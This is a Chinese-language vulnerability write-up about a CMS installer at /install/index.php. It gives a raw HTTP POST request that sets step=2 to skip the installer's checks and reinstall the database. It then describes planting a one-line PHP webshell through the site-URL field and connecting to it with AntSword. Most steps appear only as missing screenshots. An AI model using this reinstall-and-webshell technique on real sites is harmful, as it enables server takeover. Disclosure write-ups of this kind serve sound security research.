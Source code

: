 ​                                                                  系统重装漏洞

路由地址： /install/index.php  

找到可控变量$step，其中以POST数据提交

![img](images/图片1.pngg)

继续往下看发现step 为1,2,3,4，分别进入不同的php页面
![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps1.jpg)

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps2.jpg)

在step_2.php文件中发现step=2时，可以进入该页面

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps3.jpg) 

尝试burp提交数据2,3,4

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps4.jpg) 

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps5.jpg)

 

 

 

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps6.jpg) 

 

发现step=4时，结果为非法提交，然后从step=2，抓取进入数据按照页面，发现验证token

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps7.jpg) 

Poc：

POST /install/index.php HTTP/1.1

Host: zz.cms

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Content-Type: application/x-www-form-urlencoded

Cookie: PHPSESSID=l68f4rbt3n55lbrle4f531ba35

Connection: close

 

step=2



![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps16.jpg)

可以重装数据库

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps17.jpg) 

同时，发现填写数据库的信息是部分可控制的

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps18.jpg) 

发现如果更改框选部分内容，根据上面是无法连接数据库的，所以只能控制网站链接
![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps19.jpg)

在网站访问网址地址这一栏加入一句话木马

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps20.jpg) 

 

查看代码，发现一句话木马写入成功

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps21.jpg) 

使用蚁剑进行连接，链接成功

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps22.jpg) 

 

查看文件

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps23.jpg) 
